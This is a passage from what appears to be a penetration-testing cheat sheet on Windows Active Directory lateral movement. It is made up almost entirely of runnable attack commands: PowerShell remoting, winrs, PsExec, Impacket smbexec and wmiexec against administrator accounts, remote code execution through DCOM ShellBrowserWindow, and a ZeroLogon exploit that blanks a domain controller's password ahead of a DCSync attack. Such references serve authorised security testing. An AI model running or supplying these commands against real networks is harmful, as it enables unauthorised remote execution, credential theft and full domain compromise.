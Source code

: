 ```powershell
$sess = New-PSSession -ComputerName dc01 -Credential $cred

# Get Interactive Remote Session
Enter-PSSession -ComputerName dc01
Enter-PSSession -ComputerName dc01 -Credential $cred
Enter-PSSession -Session $sess
```

### Winrs
Winrs requires a plain-text password in order to authenticate to other computers
```powershell
winrs -u:dc01.contoso.local -u:contoso\administrator -p:P@$$w0rd! "hostname"
```

### SMB 
**PsExec**
This requires you to download MS Signed Binary (`PsExec.exe`) in PsTools bundle. It can be downloaded [here](https://download.sysinternals.com/files/PSTools.zip).
```bash
# windows
PsExec.exe -accepteula \\dc01.contoso.local powershell

# linux
psexec.py legitcorp.local/Administrator@192.168.0.110
```
**SMBExec**
```bash
smbexec.py legitcorp.local/Administrator@192.168.0.110
```

### WMI
```bash
wmiexec.py legitcorp.local/Administrator@192.168.0.110
```

### DCOM
ShellBrowserWindow object can be leverage for remote code execution over DCOM. Please note that this requires authentication (e.g. runas netonly)
```powershell
PS> $com = [Type]::GetTypeFromCLSID('C08AFD90-F2A1-11D1-8455-00A0C91F3880',"192.168.112.200")
PS> $obj = [System.Activator]::CreateInstance($com)
PS> $obj.Document.Application.ShellExecute("cmd.exe","/c calc.exe","c:\windows\system32",$null,0)
```

### Reference
* https://dolosgroup.io/blog/remote-access-cheat-sheet

# Low Hanging Fruits
### ZeroLogon
Set the computer account's password to null allowing attackers to perform [DCSync](#dcsync) attack with null authentication
1. Run exploit script [here](https://github.com/risksense/zerologon.git)
```bash
python3 set_empty_pw.py DC01 10.10.10.10
```
